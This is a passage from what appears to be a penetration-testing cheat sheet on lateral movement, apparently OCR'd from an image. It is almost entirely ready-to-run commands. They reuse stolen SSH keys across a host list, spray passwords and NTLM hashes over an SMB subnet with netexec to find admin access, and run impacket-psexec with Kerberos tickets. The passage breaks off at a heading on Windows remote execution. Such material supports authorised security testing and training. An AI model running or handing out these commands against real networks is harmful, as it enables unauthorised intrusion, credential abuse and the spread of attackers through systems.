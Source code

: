 ### With SSH Keys

```bash
# Use found/stolen keys
chmod 600 stolen_key
ssh -i stolen_key username@TARGET

# Test key on multiple hosts
for ip in $(cat linux_hosts.txt); do
    ssh -i stolen_key -o ConnectTimeout=3 username@$ip "hostname" 2>/dev/null && echo "Key works on $ip"
done
```

---

## SMB/Windows Lateral Movement

### With Passwords

```bash
# Find admin access
netexec smb 10.10.10.0/24 -u username -p 'PASSWORD'

# "Pwn3d!" = local admin rights
netexec smb 10.10.10.0/24 -u administrator -p 'PASSWORD' | grep "Pwn3d"

# Try as local admin (non-domain)
netexec smb 10.10.10.0/24 -u administrator -p 'PASSWORD' --local-auth
```

### With NTLM Hashes (Pass-the-Hash)

```bash
# Test hash across network
netexec smb 10.10.10.0/24 -u Administrator -H NTLM_HASH

# Look for admin access
netexec smb 10.10.10.0/24 -u Administrator -H NTLM_HASH | grep "Pwn3d"
```

### With Kerberos Tickets

```bash
# Use Kerberos authentication
impacket-psexec DOMAIN/Administrator@TARGET -k -no-pass
```

---

## Remote Code Execution Methods

### Windows Remote Execution
